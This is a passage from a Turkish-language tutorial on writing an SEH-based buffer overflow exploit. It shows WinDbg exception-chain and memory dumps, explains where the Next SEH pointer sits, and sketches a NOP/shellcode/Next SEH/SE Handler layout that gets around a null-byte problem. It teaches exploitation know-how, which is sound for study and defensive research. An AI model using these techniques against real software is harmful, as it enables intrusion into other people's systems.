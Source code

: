 Bakın, dediğimiz gibi. Null byte sorunu yüzünden kopyalama durmuş durumda. Şimdi bunu cebe atalım ve unutmadan devam edelim. Şunu önce bir anlayalım, neden `ebp+30` ? Ne var burada ? Merak edilir değil mi ? Bakalım hemen ne var, ne oluyor diye.

	0:000> !exchain
	  0012f7b8: ntdll!ExecuteHandler2+3a (7c9032bc)
	  0012fd98: 00270b0b
	  Invalid exception stack at cccccccc
	0:000> d ebp+30
	  0012f7f4  0012fd98 0012f8a8 0012f860 00270b0b
	  0012f804  0190f6ee 0012f88c 0190f7b2 7c96f31f
	  0012f814  00030000 00350178 00001018 00350000
	  0012f824  0012f620 0014a008 0012f8b0 7c90e920
	  0012f834  7c91ae40 ffffffff 7c91ae3a 0012f8c0
	  0012f844  7c96fdd8 00350608 7c96fdbc 00350000
	  0012f854  00000000 00350000 00630069 005c0065
	  0012f864  00630054 00130000 0012c000 00143b50
	0:000> d 0012fd98
	  0012fd98  cccccccc 00270b0b e28cb364 00000000
	  0012fda8  0012ff78 5353130e 003540c0 00000000
	  0012fdb8  000007f4 000007a0 b8220002 00000000
	  0012fdc8  00000000 00000000 00000784 003540c0
	  0012fdd8  00000800 00650078 02020202 536e6957
	  0012fde8  206b636f 00302e32 13121110 17161514
	  0012fdf8  1b1a1918 1f1e1d1c 23222120 27262524
    0:000> u  0012fd98
	  0012fd98 cc              int     3
	  0012fd99 cc              int     3
	  0012fd9a cc              int     3
	  0012fd9b cc              int     3
	  0012fd9c 0b0b            or      ecx,dword ptr [ebx]
	  0012fd9e 27              daa

Sanırım anladınız. Bir nevi klasik SEH exploitinde yaptığımız şeyi yaptık. `ebp+30` adresinde gördüğünüz üzre `0012fd98` yani bizim Next SEH değerimiz var. Yani şimdi yapamız gereken şey Next SEH( şu an cc ile dolu) üzerine ne yazmamız gerektiğini bulmak. Fakat dediğimiz gibi, bunun için null karakter sorununu çözmemiz gerekiyor. Haydi o halde! Mantığımız basit aslında, madem ki SEH üzerine yazdıktan sonra shellcode değerimiz (şu an D harfleri) yazılmıyor, o halde önce D'leri yazalım, ardından SEH'i yazalım. Yani şuna benzer bir yapımız oluyor :

	______________
	|            |
	| NOPLAR     |
	|____________|
	|            |
	| Shellcode  |
	|____________|
	| Next SEH   |
	|------------|
    | SE Handler |
	--------------

